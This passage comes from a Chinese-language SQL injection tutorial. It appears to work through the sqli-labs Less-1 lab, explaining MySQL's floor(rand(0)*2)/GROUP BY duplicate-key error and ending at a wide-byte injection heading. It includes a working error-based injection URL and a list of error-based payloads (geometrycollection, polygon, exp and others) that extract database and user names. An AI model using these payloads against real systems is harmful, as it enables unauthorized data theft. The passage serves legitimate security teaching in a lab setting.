 首次执行时，由于我们之前知道随机数生成的顺序所以这里第一次肯定是为 0 的，mysql 官方有说明查询使用 rand 和 group by 的时候，也就是被计算多次的时候 floor(rand(0)\*2) 会被执行一次，但是如果 group by 的表中没有记录，那么就会再被执行一次插入记录。

![image-20220602133759663.png](assets/1706846040-d01000529006f8ace48daba2a7878f7c.png)

看一下上面的表格在第三次查询为空的时候，又执行了一次做了一个插入的动作，插入的内容也就是 0 1 1 0 1 最后这个`1`的位置拼接的内容 1security，这里有的人可能会有疑问为什么不累加到 count 了，因为这里的 1security 是插入的！！！插入！，所以已经存在这个主键了，再插入就会报错。

```bash
http://10.211.55.27/Less-1/?id=-1%27%20union%20select%201,count(*),concat(floor(rand(0)*2),database())as%20x%20from%20information_schema.tables%20group%20by%20x%20--+
```

![image-20220602134409337.png](assets/1706846040-be99eeaa237509f47e086b1d86b24ef3.png)

下面列一下其他几种报错注入的利用

```bash
##geometrycollection()
and geometrycollection((select * from(select * from(select user())a)b));

##multipoint()
and multipoint((select * from(select * from(select user())a)b));

#polygon()
and polygon((select * from(select * from(select user())a)b));

#multipolygon()
and multipolygon((select * from(select * from(select user())a)b));

#linestring()
and linestring((select * from(select * from(select user())a)b));

#multilinestring()
and multilinestring((select * from(select * from(select user())a)b));

#exp()
and exp(~(select * from(select user())a));
```

#### 宽字节注入
